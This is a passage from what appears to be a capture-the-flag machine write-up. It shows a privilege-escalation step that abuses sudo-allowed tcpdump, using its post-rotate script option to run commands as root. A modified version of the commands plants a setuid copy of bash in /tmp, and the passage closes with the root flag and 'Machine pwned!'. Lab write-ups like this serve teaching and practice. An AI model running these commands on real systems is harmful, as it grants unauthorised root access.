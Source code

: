 ```shell
COMMAND='id'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```

So I'll try to modify this PoC to create a copy of the bash console as root:

```shell
COMMAND='cp /bin/bash /tmp/gitblanc; chmod 6777 /tmp/gitblanc'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```

![](Pasted%20image%2020250401113244.png)

### Root flag

![](Pasted%20image%2020250401113405.png)

==Machine pwned!==







